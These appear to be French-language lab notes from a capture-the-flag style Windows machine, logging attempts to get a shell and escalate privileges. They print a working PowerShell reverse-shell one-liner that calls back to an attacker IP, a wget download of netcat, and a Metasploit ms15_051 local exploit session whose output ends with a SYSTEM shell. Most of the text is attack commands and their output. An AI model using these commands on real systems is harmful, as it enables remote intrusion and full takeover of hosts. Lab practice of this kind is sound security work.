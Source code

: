 
# use nc.exe -> nc : ko

Kali nc : cp /usr/share/windows-binaries/nc.exe .
une fois sous windows : This program cannot be run in DOS mode.

Get nc 32 bits : wget https://joncraton.org/files/nc111nt.zip, password nc
une fois sous windows : nc.exe -h fonctionne. Se connecte, mais pas d'interaction
\inetpub\wwwroot
KO

# use powershell oneliner -> nc : ko

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.30',4446);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Nishang: Invoke-PowerShellTCP.ps1 -> : ko




# exploit/windows/local/ms15_051_client_copy_image
```
> use exploit/windows/local/ms15_051_client_copy_image
> set session 1
> set LPORT 4445

> set LHOST 10.10.14.30
> exploit

[*] Started reverse TCP handler on 10.10.14.30:4445 
[*] Launching notepad to host the exploit...
[+] Process 2884 launched.
[*] Reflectively injecting the exploit DLL into 2884...
[*] Injecting exploit into 2884...
[*] Exploit injected. Injecting payload into 2884...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.30:4445 -> 10.10.10.5:49164) at 2019-09-02 23:28:00 +0200

meterpreter > shell
Process 1652 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system

c:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
```